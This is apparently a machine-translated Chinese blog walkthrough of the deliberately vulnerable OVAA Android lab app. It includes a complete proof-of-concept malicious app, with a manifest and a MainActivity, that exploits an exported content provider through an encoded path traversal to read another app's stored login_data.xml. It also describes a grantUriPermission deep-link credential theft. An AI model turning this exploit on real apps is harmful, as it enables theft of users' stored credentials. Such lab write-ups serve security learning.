****

**内容提供商允许我们从**外部存储目录**中打开并读取某个文件，其模式值为 [**805306368**](https://developer.android.com/reference/android/os/ParcelFileDescriptor#MODE_READ_WRITE) 。这表示该文件可以读取或写入。但是因为文件在外部存储目录中，所以那里没有什么有趣的东西，不是吗？它**可能**不是，但更有趣的是，使用 **getLastPathSegment()** 从 **Uri** 最后一个路径段解析的文件名声明。**

**正如我们从本文档中所提到的，我们可以操纵读取应用程序内部的**内部**数据。例如，如果我想再次读取 login_data.xml，我只需为一个**路径遍历漏洞**传递一个**编码的斜杠**。**

****

**我们恶意应用程序的 **PoC** 可能看起来像这些，**

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="[http://schemas.android.com/apk/res/android](http://schemas.android.com/apk/res/android)"
    package="com.evil.eviltheftfileparttwo"><application
        android:allowBackup="true"
        android:icon="[@mipmap/ic_launcher](http://twitter.com/mipmap/ic_launcher)"
        android:label="[@string/app_name](http://twitter.com/string/app_name)"
        android:roundIcon="[@mipmap/ic_launcher_round](http://twitter.com/mipmap/ic_launcher_round)"
        android:supportsRtl="true"
        android:theme="[@style/Theme](http://twitter.com/style/Theme).Eviltheftfileparttwo">
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" /><category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application></manifest>
```

**主活动类:**

```
package com.evil.eviltheftfileparttwo;import androidx.appcompat.app.AppCompatActivity;import android.content.ContentResolver;
import android.net.Uri;
import android.os.Bundle;
import android.os.Environment;
import android.util.Log;
import android.widget.TextView;import java.io.BufferedReader;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStreamReader;
import java.util.ArrayList;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        TextView stealer = findViewById(R.id.stealedbuffer);
        stealer.setText("");
        try {
            ArrayList<String> mylist = new ArrayList<String>();
            File path = Environment.getExternalStorageDirectory();
            Log.d("PATHssss",path.toString());
            String pathtraversal = "..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Foversecured.ovaa%2Fshared_prefs%2Flogin_data.xml";
            ContentResolver cr = this.getContentResolver();
            FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse("content://oversecured.ovaa.theftoverwrite/"+pathtraversal));
            BufferedReader r = new BufferedReader(new InputStreamReader(fis));
            String textss;
            String mLine;
            if ((mLine = r.readLine()) != null){
                stealer.append("We finally got it!\n\n");
            }
            while ((mLine = r.readLine()) != null) {
                stealer.append(mLine+"\n");
            }} catch (Throwable th){
            throw new RuntimeException(th);
        }
    }}
```

**在此之后，我们只需生成恶意应用程序，就可以立即得到我们想要的东西。将显示登录数据！**

****

**第二个内容提供商也存在另一个独特的漏洞。虽然提供者**没有导出**，但是我们可以从它的 **grantUriPermission** 特别是与**深层链接**相关的**中获得优势，以便**再次窃取凭证**。****

**已经有一篇关于这本书的精彩报道，你可以在这里看一下[](https://payatu.com/blog/rahul.kumar/oversecured-ovaa-walkthrough-part1)**，作者是**拉胡尔·库马尔**，来自[帕亚图](https://payatu.com/)。****

****我在这里写的并不多，我们仍然可以看到很多这里没有写的漏洞。我计划尽快更新它，并且我很乐意鼓励你作为读者朋友去尝试它，并且亲自测试它们！****

> ****我希望你学到了很多知识，知道通过另一个应用程序开发这样一个应用程序是多么有趣。如果有任何误导信息，请联系我！****

****感谢我为完成这篇文章而引用的参考资料。****

****[](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/intent-injection) [## 意向注入

### 在 web security 中打开重定向。因为类意图是可打包的，所以属于这个类的对象可以作为额外的…

book.hacktricks.xyz](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/intent-injection) [](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/drozer-tutorial/exploiting-content-providers) [## 利用内容提供商

### 清单-本地 Windows 权限提升

book.hacktricks.xyz](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/drozer-tutorial/exploiting-content-providers) 

[https://book . hack tricks . XYZ/mobile-pentesting/Android-app-pentesting](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting)

[https://developer.android.com](https://developer.android.com/)

[](https://www.tutorialspoint.com/android/index.htm) [## Android 教程

### Android 是基于 Linux 的开源操作系统，适用于智能手机和平板电脑等移动设备…

www.tutorialspoint.com](https://www.tutorialspoint.com/android/index.htm) [](https://payatu.com/blog/amit/Penetrate_the_protected_component_in_android_Part-0) [## 穿透 _ 受保护的 _ 组件 _in_android

### 大家好，在我们系列的上一篇博客中，我们讨论了 Android 应用程序的基本原理。这一系列的…

payatu.com](https://payatu.com/blog/amit/Penetrate_the_protected_component_in_android_Part-0) [](https://payatu.com/blog/amit/Penetrate_the_protected_component_in_android_Part-2) [## 意图欺骗和意图拦截

### 大家好，欢迎回来！在这篇博客中，我们将尝试研究一些经常出现的基于意图的攻击手段…

payatu.com](https://payatu.com/blog/amit/Penetrate_the_protected_component_in_android_Part-2) 

随时欢迎支持我！

[](https://www.buymeacoffee.com/aseng)

[https://trakteer.id/felix-alexander-swfnt/tip?open=true](https://trakteer.id/felix-alexander-swfnt/tip?open=true)****